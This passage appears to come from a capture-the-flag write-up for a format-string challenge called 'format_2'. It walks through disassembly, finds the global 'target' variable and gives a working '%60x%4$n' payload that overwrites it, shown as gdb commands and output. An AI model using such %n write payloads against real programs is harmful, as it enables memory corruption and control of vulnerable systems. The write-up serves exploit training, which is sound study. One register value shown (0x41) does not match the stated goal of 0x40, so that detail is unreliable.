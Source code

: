 ```nasm
   0x080484db <+62>:	jne    0x80484eb <vuln+78>
   0x080484dd <+64>:	mov    DWORD PTR [esp],0x80485a0
   0x080484e4 <+71>:	call   0x8048370 <puts@plt>
   0x080484e9 <+76>:	jmp    0x8048500 <vuln+99>
   0x080484eb <+78>:	mov    eax,ds:0x804a030
   0x080484f0 <+83>:	mov    DWORD PTR [esp+0x4],eax
   0x080484f4 <+87>:	mov    DWORD PTR [esp],0x80485c0
   0x080484fb <+94>:	call   0x8048350 <printf@plt>
   0x08048500 <+99>:	leave  
   0x08048501 <+100>:	ret    
End of assembler dump.
```

```
$ objdump -t format_2 | grep target
0804a030 g     O .bss	00000004              target
```

So, target is on **0804a030**. We need to overwrite this variable with 64 since the following one compares if value is 0x40 or not.

```nasm
gdb-peda$ disas vuln
...TRIM...
0x080484d3 <+54>:	mov    eax,ds:0x804a030
0x080484d8 <+59>:	cmp    eax,0x40
...TRIM...

gdb-peda$ x/wx 0x804a030
0x804a030 <target>:

gdb-peda$ x/wx &target
0x804a030 <target>:	

gdb-peda$ p/x 64 
$1 = 0x40
```

#### 2.2 Quick Solution

So our payload will start with the address of target value in little-endian format, then we need to pop stack for 60 bytes as well (4+60 = 64).
Then we need to use %n to write on the address.

```nasm
gdb-peda$ b * 0x080484d3
gdb-peda$ r <<< $(python -c 'print "\x30\xa0\x04\x08%60x%4$n"')

gdb-peda$ disas
...TRIM...
=> 0x080484d3 <+54>:	mov    eax,ds:0x804a030
...TRIM...

gdb-peda$ i r eax
eax            0x41	0x41

gdb-peda$ c
Continuing.
you have modified the target :)
[Inferior 1 (process 3681) exited with code 040]
Warning: not running
```
